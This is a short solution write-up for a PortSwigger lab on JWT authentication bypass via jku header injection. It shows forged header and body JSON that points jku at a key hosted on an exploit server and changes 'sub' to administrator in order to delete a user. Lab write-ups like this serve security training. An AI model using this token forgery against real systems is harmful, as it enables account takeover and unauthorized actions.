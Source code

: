 # [Lab: JWT authentication bypass via jku header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection)

## Lab

This lab uses a JWT-based mechanism for handling sessions. The server supports the  `jku`  parameter in the  [JWT](https://portswigger.net/web-security/jwt)  header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

To solve the lab, forge a JWT that gives you access to the admin panel at  `/admin`, then delete the user  `carlos`.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solutions

1. generate rsa key with jwt editor
2. save the key in exploit server: "https://exploit-0ad2000e040deae3c19c3e2201550079.exploit-server.net/exploit"
3. edit jwt:

- jku: url where the key is located
- kid, alg changed by tool

header:

```json
{
    "jku": "https://exploit-0ad2000e040deae3c19c3e2201550079.exploit-server.net/exploit",
    "kid": "5bf6df89-b3ec-45f5-817c-44136956a075",
    "typ": "JWT",
    "alg": "RS256"
}
```

- change "sub":

body:

```json
{
    "iss": "portswigger",
    "sub": "administrator",
    "exp": 1673343544
}
```

sign with the new key. now we can use this jwt to login as administrator and delete carlos account.
